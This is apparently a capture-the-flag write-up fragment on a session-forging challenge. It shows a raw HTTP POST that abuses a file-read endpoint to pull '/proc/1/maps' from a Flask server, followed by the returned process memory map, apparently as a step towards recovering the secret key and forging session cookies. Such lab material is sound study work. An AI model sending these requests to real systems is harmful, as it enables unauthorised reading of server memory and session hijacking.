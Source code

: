 https://www.bordergate.co.uk/flask-session-cookies/


POST /fileread HTTP/1.1
Host: babysessionforger.hkn
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Content-Type: multipart/form-data; charset=UTF-8; boundary=--------800612066
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJhdXRoZWQiOmZhbHNlfQ.Z_EWwQ.hOY8-OkkiD1ZFk6wwQXZ0EIqkGg
Connection: keep-alive
Content-Length: 261

----------800612066
Content-Disposition: form-data; name="offset"

0
----------800612066
Content-Disposition: form-data; name="amount"

1000000
----------800612066
Content-Disposition: form-data; name="filename"

/proc/1/maps
----------800612066--


HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.12.3
Date: Sat, 05 Apr 2025 12:50:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 14082
Connection: close

00400000-00420000 r--p 00000000 00:493 23342621                          /usr/bin/python3.12
00420000-00703000 r-xp 00020000 00:493 23342621                          /usr/bin/python3.12
00703000-00a27000 r--p 00303000 00:493 23342621                          /usr/bin/python3.12
00a27000-00a28000 r--p 00627000 00:493 23342621                          /usr/bin/python3.12
00a28000-00ba6000 rw-p 00628000 00:493 23342621                          /usr/bin/python3.12
00ba6000-00ba9000 rw-p 00000000 00:00 0 
00ee6000-0146a000 rw-p 00000000 00:00 0                                  [heap]
7f9eb0000000-7f9eb004e000 rw-p 00000000 00:00 0 
7f9eb004e000-7f9eb4000000 ---p 00000000 00:00 0 
7f9eb6519000-7f9eb670e000 rw-p 00000000 00:00 0 
7f9eb670e000-7f9eb670f000 ---p 00000000 00:00 0 
7f9eb670f000-7f9eb7375000 rw-p 00000000 00:00 0 
7f9eb7375000-7f9eb737c000 r--p 00000000 00:493 23344360                  /usr/lib/python3.12/lib-dynload/_decimal.cpython-312-x86_64-linux-gnu.so
7f9eb737c000-7f9eb73bc000 r-xp 00007000 00:493 23344360                  /usr/lib/python3.12/lib-dynload/_decimal.cpython-312-x86_64-linux-gnu.so
7f9eb73bc000-7f9eb73cd000 r--p 00047000 00:493 23344360                  /usr/lib/python3.12/lib-dynload/_decimal.cpython-312-x86_64-linux-gnu.so
7f9eb73cd000-7f9eb73ce000 r--p 00057000 00:493 23344360                  /usr/lib/python3.12/lib-dynload/_decimal.cpython-312-x86_64-linux-gnu.so
7f9eb73ce000-7f9eb73d1000 rw-p 00058000 00:493 23344360                  /usr/lib/python3.12/lib-dynload/_decimal.cpython-312-x86_64-linux-gnu.so
7f9eb73d1000-7f9eb75d1000 rw-p 00000000 00:00 0 
7f9eb75d1000-7f9eb75d5000 r--p 00000000 00:493 23344361                  /usr/lib/python3.12/lib-dynload/_hashlib.cpython-312-x86_64-linux-gnu.so
7f9eb75d5000-7f9eb75db000 r-xp 00004000 00:493 23344361                  /usr/lib/python3.12/lib-dynload/_hashlib.cpython-312-x86_64-linux-gnu.so
7f9eb75db000-7f9eb75df000 r--p 0000a000 00:493 23344361                  /usr/lib/python3.12/lib-dynload/_hashlib.cpython-312-x86_64-linux-gnu.so